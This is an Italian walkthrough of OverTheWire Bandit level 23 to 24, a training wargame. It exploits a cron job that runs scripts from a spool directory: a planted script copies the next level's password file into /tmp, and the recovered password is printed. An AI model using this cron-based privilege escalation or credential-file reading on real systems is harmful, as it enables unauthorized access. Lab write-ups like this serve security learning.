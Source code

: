 ## Bandit Level 23 → Level 24

`ssh bandit23@bandit.labs.overthewire.org -p 2220`

Facciamo gli stessi passaggi del livello precedente
```
cd /etc/cron.d
cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
cat /usr/bin/cronjob_bandit24.sh
```
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```
Lo script **cronjob_bandit24.sh** esegue tutti i programmi presenti in **/var/spool/$myname**

creiamo una cartella
```
mkdir /tmp/elle
cd /tmp/elle
```
scriviamo lo script che va a copiare la password per il livello 24 in un file a nostro piacimento
```
nano bandit24.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/elle/level24.txt
```
settiamo i permessi dello script
```
chmod 777 bandit24.sh
```
copiamo lo script nella cartella dove vengono eseguiti tutti i programmi
```
cp bandit24.sh /var/spool/bandit24/
```
setto i permessi della nostra cartella
```
chmod 777 /tmp/elle
```
aspettiamo qualche attimo
```
ls
bandit24.sh  level24.txt
cat level24.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
## Bandit Level 24 → Level 25
`ssh bandit24@bandit.labs.overthewire.org -p 2220`
